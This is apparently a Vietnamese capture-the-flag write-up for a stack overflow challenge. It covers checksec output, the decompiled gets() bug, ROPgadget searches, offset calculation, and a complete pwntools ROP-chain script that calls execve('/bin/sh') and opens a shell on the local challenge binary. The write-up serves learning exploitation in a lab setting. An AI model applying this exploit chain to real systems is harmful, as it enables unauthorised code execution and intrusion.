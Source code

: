 # *Challenge: ROPchain_chall*
***

* **ROP Gadget** là một đoạn mã máy nhỏ (thường chỉ vài byte) kết thúc bằng lệnh ret và thực hiện một hành động đơn giản. Ví dụ như: pop rdi ; ret, mov rax, rdi ; ret, syscall, v.v.
* **Ứng dụng của ROPgadget** để tìm các đoạn mã (ROPgadgets) trong binary hoặc thư viện để giúp bạn tạo ROP chain thay thế cho shellcode (với những bài không thể thực thi shellcode trên stack do các cơ chế bảo vệ ).
- Các chế độ bảo vệ ảnh hưởng đến ROPgadget:
 ```txt
 ✅ NX (No eXecute)
Không thể dùng shellcode → phải dùng ROP chain để gọi hàm như execve
✅ Stack Canary
Ngăn ghi đè return address → cần leak hoặc bypass canary
✅ ASLR (Address Space Layout Randomization)
Địa chỉ gadget trong libc sẽ bị thay đổi → phải leak địa chỉ trước (ret2libc)
✅ PIE (Position Independent Executable)
Toàn bộ chương trình bị random base → không biết gadget ở đâu nếu không leak
✅ RELRO (Read-Only Relocations)
Không ảnh hưởng gadget, nhưng ngăn ghi GOT (dùng trong một số khai thác)
```
*Với file chall:*
```sh
pwndbg> checksec
File:     /mnt/d/Documents/ISP/TASK1/3_ROPgadget/ROPchain_chall
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
Debuginfo:  Yes
pwndbg>
```
- Canary bật nhưng không hiểu sao debug vẫn buffer overflow đc =)) chắc do lỗi của checksec
- NX enable -> ko thể thực thi shellcode trên stack -> phải nhặt các gadget để thực thi hàm execve
- PIE: No PIE - > ko cần leak địa chỉ do địa chỉ luôn cố định
**Xem pseudo code ở IDA xem, chương trình hoạt động ntn:**
- Có chỉ có 2 hàm chính init() và main():
Mô tả chương trình: Đầu tiên khởi tạo các biến v3, v4, v5, v6 và buffer v8[80] sau đó gọi hàm init để khởi tạo các bộ đệm, nhập v8 bằng gets và kết thúc chương trình 
 ```c
 int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v3; // edx
  int v4; // ecx
  int v5; // r8d
  int v6; // r9d
  char v8[80]; // [rsp+0h] [rbp-50h] BYREF

  init();
  printf((unsigned int)"Say something: ", (_DWORD)argv, v3, v4, v5, v6, v8[0]);
  gets(v8);
  return 0;
}
 ```
 ```c
 __int64 init()
{
  setbuf(&_stdin_FILE, 0LL);
  setbuf(&_stderr_FILE, 0LL);
  return setbuf(&_stdout_FILE, 0LL);
}
 ```
**Nhận diện ROPchain:**
- Không có sẵn hàm system() hoặc hàm gọi shell trong file binary
- hàm gets() luôn xảy ra lỗi buffer overflow nên có thể dùng buffer overflow để điều khiển thanh ghi rip
- PIE tắt
- NX bật -> ko thực thi đc shellcode trên stack
-> Mục tiêu: tạo ROPchain bằng tiện ích ROPgadget để tạo shell thủ công 
**Tìm các gadget bằng ROPgadget**
- Tìm các gadget của pop rax, pop rdi, pop rsi, pop rdx và syscall tương ứng với các argument của hàm execve()
- Phải tìm gadget tại các pop vì pop dùng để đưa giá trị từ stack vào thanh ghi, giúp bạn điều khiển tham số của hàm hoặc syscall mà bạn muốn gọi.
```sh
$ ROPgadget --binary chall4 | grep "pop rdi"
$ ROPgadget --binary chall4 | grep "pop rsi"
$ ROPgadget --binary chall4 | grep "pop rdx"
$ ROPgadget --binary chall4 | grep "pop rax"
$ ROPgadget --binary chall4 | grep "syscall"
```
-> viết vào script
- Sau đó, ta sẽ tìm 1 địa chỉ có thể write đc của file chall này
 ```sh
 pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size  Offset File (set vmmap-prefer-relpaths on)
          0x400000           0x401000 r--p     1000       0 ROPchain_chall
          0x401000           0x405000 r-xp     4000    1000 ROPchain_chall
          0x405000           0x406000 r--p     1000    5000 ROPchain_chall
          0x406000           0x408000 rw-p     2000    5000 ROPchain_chall
    0x7ffff7ff9000     0x7ffff7ffd000 r--p     4000       0 [vvar]
    0x7ffff7ffd000     0x7ffff7fff000 r-xp     2000       0 [vdso]
    0x7ffffffde000     0x7ffffffff000 rw-p    21000       0 [stack]
```
- ta thấy có địa chỉ 0x406000 có thể read và write đc nên ta dùng lệnh x/50xg 0x406000 để tìm 1 địa chỉ trống chưa có giá trị để write vào 
```sh
pwndbg>
0x406af0:       0x71706f6e68271e12      0x1514130f06052062
0x406b00:       0x181724280716081a      0x8323251f1b0e0a09
0x406b10:       0x3e3d3c2b2a267d82      0x5a59584d4a47433f
0x406b20:       0x6361605f5e5d5c5b      0x6c6b6a6967666564
0x406b30:       0x487c7b7a79747372      0x7b80000000000000
0x406b40:       0x0000000000000014      0x0110780100527a01
0x406b50:       0x0000019008070c1b      0x0000001c0000001c
0x406b60:       0x00000047ffffb5d9      0x0d430286100e4500
0x406b70:       0x00000008070c7e06      0x0000003c0000001c
0x406b80:       0x0000003fffffb600      0x0d430286100e4500
0x406b90:       0x00000008070c7606      0x0000000000000000
0x406ba0:       0x0000000000000000      0x0000000000000000
0x406bb0:       0x0000000000000000      0x0000000000000000
0x406bc0:       0x0000000000000000      0x0000000000000000
0x406bd0:       0x0000000000000000      0x0000000000000000
0x406be0:       0x0000000000000000      0x0000000000000000
0x406bf0:       0x0000000000000000      0x0000000000000000
0x406c00:       0x0000000000000000      0x0000000000000000
0x406c10:       0x0000000000000000      0x0000000000000000
0x406c20:       0x0000000000000000      0x0000000000000000
0x406c30:       0x0000000000000000      0x0000000000000000
0x406c40:       0x0000000000000000      0x0000000000000000
0x406c50:       0x0000000000000000      0x0000000000000000
0x406c60:       0x0000000000000000      0x0000000000000000
0x406c70:       0x0000000000000000      0x0000000000000000
pwndbg>
```
-> Chọn 1 trong các địa chỉ trống rồi viết vào script
 ```py
 pop_rdi = 0x000000000040220e
pop_rsi = 0x00000000004015ae
pop_rdx = 0x00000000004043e4
pop_rax = 0x0000000000401001
syscall = 0x000000000040132e

rw_section = 0x406be0
```
***Viết Payload:**
- Trước tiên ta sẽ tính offet từ hàm gets đến return
 ```sh
 pwndbg> cyclic -l 0x616161616161616c
Finding cyclic pattern of 8 bytes: b'laaaaaaa' (hex: 0x6c61616161616161)
Found at offset 88
pwndbg>
```
-> ta sẽ truyền vào 88 byte rác vào trước sau đó thiết lập thanh ghi rdi với địa chỉ có thể write vào payload
 
-> overwrite rip thành gadget pop rdi, sau đó pop cái địa chỉ có thể ghi đc sau đó đến địa chỉ của hàm gets() để ta nhập chuỗi ‘/bin/sh’
- Sau đó ta sẽ viết tiếp payload để thực thi luôn hàm execve(“/bin/sh”, 0, 0) với 3 argument:
rdi = con trỏ trỏ tới địa chỉ “/bin/sh” , rsi = 0, rdx = 0 và syscall numer rax = 0x3b
- Ở đây ta thấy lệnh add rsp, 0x28 sau khi pop rsi rdx, ta cần cộng thêm 0x28 byte rác để nhảy trúng pop rax
Script:
 ```py
 #Payload
payload = flat(b'a'*88, pop_rdi, rw_section, exe.sym['gets'])

payload += flat(pop_rdi, rw_section)
payload += flat(pop_rsi, 0)
payload += flat(pop_rdx, 0)
payload += b'b'*0x28
payload += flat(pop_rax, 0x3b, syscall)

p.sendlineafter(b'something: ', payload)
p.sendline(b'/bin/sh\0')
p.interactive()
```
- Kiểm tra bằng debug động:
-> đã đúng script

- Giờ giử solve.py lên:
```sh
$ python3 solve.py
[+] Starting local process '/mnt/d/Documents/ISP/TASK1/3_ROPgadget/ROPchain_chall': pid 326
[*] Switching to interactive mode
$
$ whoami
d1nhdwc
$ ls
 ROPchain_chall       report3.docx   solve.py
 ROPchain_chall.i64   report3.md    '~$eport3.docx'
$
```
 ***-> đã chiếm đc shell***
